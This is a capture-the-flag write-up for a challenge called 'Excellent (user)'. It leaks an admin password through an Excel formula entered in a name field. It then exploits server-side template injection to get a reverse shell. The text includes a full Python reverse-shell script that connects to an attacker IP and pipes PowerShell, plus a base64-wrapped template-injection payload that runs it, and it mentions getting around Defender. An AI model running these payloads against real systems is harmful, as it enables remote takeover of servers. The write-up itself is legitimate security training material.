




# 🔥 Excellent (user) 🔥

`Tweey` @ Iku-toppene\
Disclaimer: This challenge was originally solved by Shirajuki in my team, but this writeup is written from my perspective.
## Summary
This challenge involved leveraging an Excel-based database for credential extraction. After gaining access as Administrator, a server-side template injection (SSTI) vulnerability was exploited to obtain reverse shell.
## Access to Administrator
The first step in this challenge is to determine the server’s backend, which appeared to use Excel. By sending the input `" , "`, an Excel error message is returned, confirming the use of Excel as the database.\
\
With Excel confirmed as the backend, it is possible to retrieve the Admin password using an Excel formula. By setting the name field to =$C1, which references the C1 column, the password of the Administrator user is revealed.\

The password is revealed after logging in as the user.\
\
It is now possible to log in as the Admin user.\
\
## Reverse shell in SSTI
After logging in as Admin, is is possible to access the /report page. An SSTI vulnerability is identified by entering the payload `{{7*7}}` as the name while registerring a user.\
\
During the competition, we first attempted to use PowerShell for a reverse shell, but these attempts were caught by Defender AntiVirus. However, switching to Python is simpler. The following payload is used for reverse shell
```
import os,socket,subprocess,threading;
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("INSERT IP",PORT))

p=subprocess.Popen(["powershell"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```
To execute this payload via SSTI, the script is base64-encoded and embedded into the following payload:
```
{{dict.__base__.__subclasses__()[544](["python", "-c", "import base64;exec(base64.b64decode('aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzLHRocmVhZGluZzsKZGVmIHMycChzLCBwKToKICAgIHdoaWxlIFRydWU6CiAgICAgICAgZGF0YSA9IHMucmVjdigxMDI0KQogICAgICAgIGlmIGxlbihkYXRhKSA+IDA6CiAgICAgICAgICAgIHAuc3RkaW4ud3JpdGUoZGF0YSkKICAgICAgICAgICAgcC5zdGRpbi5mbHVzaCgpCgpkZWYgcDJzKHMsIHApOgogICAgd2hpbGUgVHJ1ZToKICAgICAgICBzLnNlbmQocC5zdGRvdXQucmVhZCgxKSkKCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoIjEwLjEyOC4yLjI1IiwxMzM3KSkKCnA9c3VicHJvY2Vzcy5Qb3BlbihbInBvd2Vyc2hlbGwiXSwgc3Rkb3V0PXN1YnByb2Nlc3MuUElQRSwgc3RkZXJyPXN1YnByb2Nlc3MuU1RET1VULCBzdGRpbj1zdWJwcm9jZXNzLlBJUEUpCgpzMnBfdGhyZWFkID0gdGhyZWFkaW5nLlRocmVhZCh0YXJnZXQ9czJwLCBhcmdzPVtzLCBwXSkKczJwX3RocmVhZC5kYWVtb24gPSBUcnVlCnMycF90aHJlYWQuc3RhcnQoKQoKcDJzX3RocmVhZCA9IHRocmVhZGluZy5UaHJlYWQodGFyZ2V0PXAycywgYXJncz1bcywgcF0pCnAyc190aHJlYWQuZGFlbW9uID0gVHJ1ZQpwMnNfdGhyZWFkLnN0YXJ0KCkKCnRyeToKICAgIHAud2FpdCgpCmV4Y2VwdCBLZXlib2FyZEludGVycnVwdDoKICAgIHMuY2xvc2UoKQ=='.encode()).decode())"], stdout=-1).communicate()[0]}}
```
After setting up a netcat listener on the eptbox and refreshing the /report page, we have shell as the user Charles.\
\
**Flag: EPT{N0w_tha7_wa5_EXCELLENT!}**
